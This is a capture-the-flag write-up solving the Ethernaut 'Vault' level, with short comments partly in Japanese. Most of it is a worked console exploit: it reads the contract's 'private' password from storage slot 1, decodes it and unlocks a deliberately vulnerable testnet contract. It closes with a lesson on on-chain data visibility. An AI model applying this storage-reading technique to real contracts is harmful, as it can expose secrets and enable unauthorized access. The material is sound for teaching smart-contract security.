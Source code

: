 ## Ethernaut-solution

### 8.Vault 

Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
```
>contract
n {methods: {…}, abi: Array(3), address: '0x97E95179608562E7Afa3d66d3Be7a588171E06b5', transactionHash: undefined, constructor: ƒ, …}
```
```
>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 3
[[Prototype]]: Array(0)
```
```
>await contract.locked()
true
```
```
>contract.address
'0x97E95179608562E7Afa3d66d3Be7a588171E06b5'
```
```
>var pwd
undefined
```
```
>web3.eth.getStorageAt(contract.address, 0, function(err, result) { pwd = result })
```

//0 is boolian value 'locked'
```
Promise {<pending>}
```
```
>pwd
'0x0000000000000000000000000000000000000000000000000000000000000001'
```

//passsword取得してしまおう
```
>web3.eth.getStorageAt(contract.address, 1, function(err, result) { pwd = result })
```
//1 is password 
```
Promise {<pending>}

>pwd
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

>web3.utils.toAscii(pwd) //strong encryption 
'A very strong secret password :)'
```

//unlockするのにガス代払ってunlock完了
```
>await contract.unlock(pwd)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
{tx: '0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29', receipt: {…}, logs: Array(0)}
```
```
>await contract.locked()
false
```


Its important to remember that marking a variable as private only prevents other contracts from accessing it. 
State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. 
In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. 
zk-SNARKs provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/
















